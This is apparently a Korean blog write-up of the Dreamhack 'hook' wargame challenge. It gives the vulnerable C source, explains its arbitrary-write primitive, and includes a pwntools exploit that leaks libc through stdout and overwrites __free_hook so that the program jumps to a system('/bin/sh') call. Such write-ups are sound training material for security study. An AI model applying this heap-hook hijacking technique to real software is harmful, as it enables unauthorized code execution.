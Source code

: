 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN hook"
excerpt: "드림핵 포너블 hook 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2023-02-07 14:30
---
```


dreamhack 크리스마스 CTF 문제중에 hook문제가 있어 같이 풀어봤다. 문제 자체는 드림핵 hook 문제가 난이도도 낮고 코드도 간단하다. 

문제파일을 다운받고 압축을 풀면 hook바이너리와 소스코드, libc가 있다. 문제 환경은 ubuntu 16.04로 도커를 사용해 문제를 디버깅 했다. 소스코드는 다음과 같다.

```c
// gcc -o init_fini_array init_fini_array.c -Wl,-z,norelro
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);
   
    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}
```

stdout의 주소를 출력해 주고 malloc하기 위한 사이즈를 입력 받는다. 이후 malloc한 포인터를 ptr에 대입하고 malloc의 사이즈 만큼 read 함수를 통해 ptr에 쓴다.

그 다음, *ptr의 주소에 *(ptr+1)을 대입한다. 그다음 ptr을 두번 free하고 system("/bin/sh")를 실행한다. 일단 더블프리 오류로 인해 system함수는 정상적으로 실행이 힘들 것 이다.

여기서 활용할 것은 다음 코드이다.
```c
*(long *)*ptr = *(ptr+1);
```

만약 ptr 변수에 read 함수를 통해 0x40000000000000001000000000000000라는 값을 입력 받았다고 가정하자. 위 코드는 ptr의 포인터가 가리키는 함수의 내용을 *(ptr+1)로 바꾸는 코드이다. 따라서 0x40000000000000001000000000000000라는 값을 입력했을 때의 결과는 0x4000000000000000 주소의 값에 0x1000000000000000라는 값을 넣게 된다. 64비트 기반이기 때문에 16사이즈로 잘라서 계산하면 편하다.

그럼 이 기능을 이용해 read 함수를 통해서 p64(free_hook)+p64(*(system("/bin/sh")))를 입력하면 free가 실행되기 전 system("/bin/sh")를 실행하게 된다. 원샷 가젯을 이용해도 될것 같지만 문제에서 system함수가 존재하기 때문에 이를 이용해 exploit코드를 작성했다.

아래 코드를 이용하면 문제를 쉘을 획득할 수 있다.

```python
from pwn import *
context.update(arch='amd64', os='linux')
#c = remote("host3.dreamhack.games", 22736)
c = process("./hook", env={'LD_PRELOAD':'./libc.so.6'})
#c = process("./hook")
libc=ELF('./libc.so.6')

print(c.recvuntil(b"stdout: "))
stdout = int(c.recv(14), 16)
main_syscall = 0x400a11

print("stdout : "+hex(stdout))

libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
free_hook = libc_base + libc.symbols['__free_hook']

payload = p64(free_hook)+p64(main_syscall)

c.sendlineafter(b"Size: ", b"400")
c.sendlineafter(b"Data: ", payload)

c.interactive()
```